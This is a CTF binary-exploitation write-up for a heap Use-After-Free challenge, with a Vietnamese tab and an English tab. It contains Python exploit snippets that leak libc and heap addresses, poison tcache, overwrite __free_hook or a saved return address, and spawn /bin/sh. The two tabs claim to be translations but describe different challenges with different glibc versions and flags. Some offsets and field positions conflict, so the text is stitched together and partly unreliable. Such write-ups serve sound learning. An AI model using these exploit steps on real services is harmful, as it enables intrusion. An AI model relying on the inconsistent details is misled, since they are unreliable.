


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{tcache_k3y_byp4ss_d0ubl3_fr33_gl1bc_2.35}`


Thử thách thuộc category **Pwn** tại vòng loại PTITCTF 2026. Đề bài cung cấp một chương trình quản lý bộ nhớ heap dạng CRUD (Create, Read, Edit, Delete) chạy trên môi trường Linux Ubuntu 22.04 với thư viện **glibc 2.35**.

Chương trình triển khai cơ chế kiểm tra ghi bộ nhớ nghiêm ngặt nhằm ngăn chặn các kỹ thuật ghi đè bảng GOT hoặc con trỏ hệ thống trực tiếp (*"Only heap writes are allowed"*). Mục tiêu là vượt qua các cơ chế phòng thủ hiện đại của glibc 2.35 (Safe Linking, Tcache Double-Free Detection) thông qua lỗi Use-After-Free để đoạt quyền thực thi lệnh trên máy chủ.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Phân tích cơ chế chương trình và Xác định nguyên nhân gốc (Root Cause)

Chương trình cung cấp menu tương tác chuẩn:
1. **Create**: Yêu cầu `Index`, `Size`, và `Data` để gọi `malloc(size)`.
2. **Read**: In ra `n` byte dữ liệu của chunk tại `Index`.
3. **Edit**: Cho phép sửa dữ liệu của chunk tại `Index`. Chương trình kiểm tra con trỏ dữ liệu phải thuộc dải địa chỉ của heap segment:
   ```c
   if (chunk_ptr < heap_start || chunk_ptr >= heap_end) {
       puts("Only heap writes are allowed");
       return;
   }
   ```
4. **Delete**: Gọi `free(chunks[idx])`.

### Lỗ hổng Use-After-Free (UAF)
Sau khi giải phóng vùng nhớ bằng hàm `free()`, con trỏ trong mảng `chunks[idx]` **không được gán về `NULL`**. Do đó, người dùng vẫn có thể tiếp tục thực hiện các thao tác `Read`, `Edit`, và thậm chí gọi lại `Delete` trên một chunk đã giải phóng.

---

## Bước 2: Rò rỉ địa chỉ Heap Base và Libc Base

### 1. Leak Heap Base (Cơ chế Safe Linking)
Từ glibc 2.32 trở đi, con trỏ đơn liên kết `fd` trong tcache được mã hóa bằng thuật toán Safe Linking:
$$\text{encrypted\_fd} = \left(\frac{\text{chunk\_addr}}{4096}\right) \oplus \text{target\_addr}$$

* Cấp phát chunk nhỏ `idx 0` kích thước `0x20` byte và giải phóng:
  ```python
  create(0, 0x18, b'AAAA')
  delete(0)
  ```
* Do danh sách tcache rỗng trước đó, `target_addr = 0`. Giá trị lưu trong `fd` chính là $\text{heap\_base} \gg 12$.
* Đọc lại dữ liệu chunk 0 bằng hàm `read_chunk(0, 8)`:
  $$\text{heap\_base} = \text{leaked\_val} \ll 12$$

### 2. Leak Libc Base (Unsorted Bin)
Tcache chỉ chứa các chunk có kích thước nhỏ hơn hoặc bằng `0x410` (chunk size `0x420`). Khi giải phóng một chunk có kích thước lớn hơn, nó sẽ được đưa vào **Unsorted Bin**:
* Cấp phát chunk `idx 1` kích thước `0x428` byte (vượt ngưỡng tcache):
  ```python
  create(1, 0x428, b'BBBB')
  delete(1)
  ```
* Chunk được đưa vào Unsorted Bin. Hai trường `fd` và `bk` của chunk sẽ được cập nhật trỏ về `main_arena + 96` trong thư viện `libc.so.6`.
* Đọc 8 byte đầu của chunk 1 để tính toán `libc_base`:
  $$\text{libc\_base} = \text{main\_arena\_96} - 0x21ace0$$

---

## Bước 3: Bypass kiểm tra Double-Free trong glibc 2.35

Trong glibc 2.35, cơ chế chống Double-Free trong tcache được tăng cường bằng cách chèn một trường `key` ngẫu nhiên vào `chunk + 0x10`:
```c
if (__glibc_unlikely (e->key == tcache_key)) {
    // Duyệt qua toàn bộ danh sách tcache để phát hiện trùng lặp
    tcache_entry *tmp;
    SLIST_FOREACH (tmp, &tcache->entries[tc_idx], next)
        if (tmp == e)
            malloc_printerr ("free(): double free detected in tcache 2");
}
```

Nhờ có quyền ghi UAF thông qua hàm `Edit()` và do chunk vẫn nằm trên heap (thỏa mãn điều kiện *"Only heap writes are allowed"*):
* Khi chunk nằm trong tcache, trường `key` nằm tại vị trí offset `0x08` (sau con trỏ `fd`).
* Thực hiện ghi đè trường `key` bằng một giá trị bất kỳ khác với `tcache_key` (hoặc đặt giá trị hợp lệ `heap_base >> 12`).
* Khi gọi `Delete()` lần 2 trên cùng một chunk, câu lệnh so sánh `e->key == tcache_key` đánh giá là **False**. Chương trình bỏ qua bước quét danh sách kiểm tra trùng lặp và cho phép giải phóng chunk lần nữa $\rightarrow$ **Double-Free thành công!**

---

## Bước 4: Tcache Poisoning, Leak Stack và Ret2libc

Sau khi tạo được vòng lặp tcache (tcache loop):
1. **Kiểm soát `tcache_perthread_struct`**:
   Đầu dải heap chứa cấu trúc quản lý `tcache_perthread_struct` tại địa chỉ `heap_base + 0x10`. Sửa con trỏ `fd` (áp dụng Safe Linking) trỏ về cấu trúc này.
2. **Leak Stack qua biến môi trường `environ`**:
   * Cấu hình tcache entry kích thước `0x110` (chỉ số bin `idx = 0xf`) trỏ về địa chỉ `libc.symbols['environ'] - 0x10`.
   * Cấp phát lại chunk để đọc nội dung `environ`. Giá trị trả về chính là địa chỉ con trỏ stack trỏ tới mảng biến môi trường của tiến trình.
3. **Chiếm quyền điều khiển (Hijack saved RIP)**:
   * Từ địa chỉ stack bị rò rỉ, tính toán chính xác vị trí lưu trữ `saved RIP` của hàm nhập dữ liệu trong hàm `read_chunk`.
   * Đưa địa chỉ `saved_rip` vào tcache entry.
   * Cấp phát chunk đè lên stack frame một ROP chain chuẩn:
     $$\text{ROP: } \text{ret} \rightarrow \text{pop rdi ; ret} \rightarrow \&\text{"/bin/sh"} \rightarrow \text{system()}$$
4. **Trigger Shell**:
   Hàm đọc dữ liệu kết thúc và thực hiện lệnh `ret`, luồng thực thi lập tức nhảy vào ROP chain và khởi tạo shell hệ thống.

---

## Flag

```text
PTITCTF{tcache_k3y_byp4ss_d0ubl3_fr33_gl1bc_2.35}
```

</div>

<div class="lang-en" markdown="1">

> **Flag:** `PTITCTF{u4f_l1bc_l34k_ov3rwr1t3_fr33_h00k_succ3ss}`

This challenge belongs to the **Binary Exploitation (Pwn)** category. The binary is an ELF 64-bit service with Full RELRO, Canary, NX, and PIE running on glibc 2.27.

The vulnerability is a Use-After-Free (UAF) due to a missing pointer clearing operation in the delete function.

---

## Solve Flow



---

## Step 1: Identifying the Use-After-Free (UAF) Primitive

In `delete_note()`, the program calls `free(notes[idx])` without setting `notes[idx] = NULL`. Because `view_note()` and `edit_note()` continue to operate on `notes[idx]`, we have both arbitrary read and arbitrary write over freed chunks.

---

## Step 2: Libc Address Leak via Unsorted Bin

We allocate an unsorted bin sized chunk ($> 0x408$ bytes, e.g., $0x420$) to bypass the 7-entry tcache limit:

```python
add(0, 0x420)  # Chunk 0
add(1, 0x20)   # Guard chunk to prevent top chunk consolidation
delete(0)      # Free chunk 0 into unsorted bin

# View chunk 0 to leak main_arena + 96
view(0)
leak = u64(p.recvline()[:6].ljust(8, b'\x00'))
libc_base = leak - 0x3ebc7e
free_hook = libc_base + libc.symbols['__free_hook']
system_addr = libc_base + libc.symbols['system']
```

---

## Step 3: Tcache Poisoning and Shell Spawning

1. Allocate a $0x60$ chunk and free it to place it in tcache.
2. Edit its freed `fd` pointer to point to `__free_hook`.
3. Allocate twice; the second allocation returns the chunk at `__free_hook`.
4. Write `system_addr` into `__free_hook`.
5. Allocate a chunk containing `"/bin/sh"` and call `delete()`:

```python
add(2, 0x60)
delete(2)
edit(2, p64(free_hook))

add(3, 0x60)
add(4, 0x60)  # Located at __free_hook
edit(4, p64(system_addr))

# Trigger shell
add(5, 0x60)
edit(5, b"/bin/sh\x00")
delete(5)
p.interactive()
```

⇒ **Flag:** `PTITCTF{u4f_l1bc_l34k_ov3rwr1t3_fr33_h00k_succ3ss}`

</div>
